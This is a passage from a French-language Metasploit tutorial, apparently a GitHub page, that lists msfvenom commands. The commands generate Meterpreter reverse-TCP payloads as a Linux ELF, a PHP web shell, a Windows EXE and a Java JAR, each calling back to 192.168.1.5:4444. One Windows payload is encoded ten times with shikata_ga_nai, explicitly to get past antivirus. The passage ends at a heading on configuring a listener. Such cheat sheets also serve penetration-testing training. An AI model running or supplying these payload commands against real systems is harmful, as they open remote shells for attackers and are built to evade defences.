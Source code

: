 #### 2. Générer un Payload Linux

*   **Commande** :

    ```bash
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f elf -o payload.elf
    ```
* **Explication** :
  * Formate le payload en un fichier ELF pour Linux.

***

#### 3. Générer un Payload Web (PHP)

*   **Commande** :

    ```bash
    msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw -o shell.php
    ```
* **Explication** :
  * Génère un shell PHP pour obtenir une session Meterpreter.

***

#### 4. Encoder un Payload pour Contourner les Antivirus

*   **Commande** :

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe
    ```
* **Explication** :
  * `-e` : Utilise un encodeur (ici `shikata_ga_nai`).
  * `-i 10` : Encode le payload 10 fois pour augmenter les chances de contournement.

***

#### 5. Générer un Payload Multi-Plateforme

*   **Commande** :

    ```bash
    msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f jar -o payload.jar
    ```
* **Explication** :
  * Crée un payload au format `.jar` pour cibler les environnements Java.

***

### 🎯 Étape 5 : Configurer un Listener dans Metasploit

***

#### Configurer Metasploit pour Recevoir le Payload
